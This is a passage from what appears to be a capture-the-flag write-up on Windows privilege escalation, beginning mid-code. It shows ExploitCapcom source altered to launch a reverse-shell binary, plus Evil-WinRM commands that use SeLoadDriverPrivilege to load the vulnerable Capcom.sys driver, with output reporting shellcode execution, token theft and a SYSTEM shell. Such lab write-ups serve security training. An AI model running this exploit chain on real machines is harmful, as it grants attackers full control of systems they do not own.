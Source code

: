 ```cpp
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```

We can change it to always run the same command regardless, which would be to execute the reverse shell we created in this case. Here's the updated code:

```cpp
static bool LaunchShell(TCHAR* cmd)
{
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(L"C:\\Windows\\system32\\cmd.exe", L"/c \"c:\\users\\svc-print\\documents\\rev.exe\"", nullptr, nullptr, FALSE,
        0, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        std::cout << "CMD failed" << std::endl;
        std::cout << GetLastErrorAsString() << std::endl;
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```

We can then build this project into an `.exe` file and download it to Kali. Remember to **select x64 and Release before building**. I also compiled the EoPUploaderDriver file again, just in case.

{% embed url="https://github.com/TarlogicSecurity/EoPLoadDriver" %}

Then, download all of them again and run it as per the PoC.

```
*Evil-WinRM* PS C:\Users\svc-print\desktop> .\eoploaddriver_x64.exe System\\CurrentControlSet\\dfserv C:\\Temp\\Capcom.sys
*Evil-WinRM* PS C:\Users\svc-print\desktop> .\ExploitCapcom.exe LOAD C:\\Temp\\Capcom.sys
[*] Service Name: bmpccxvu0ôLS
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\????????????????????
NTSTATUS: c0000033, WinError: 0
*Evil-WinRM* PS C:\Users\svc-print\desktop> .\ExploitCapcom.exe
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000080
[*] Shellcode was placed at 000001D1F5F00008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
[*] Press any key to exit this program
```
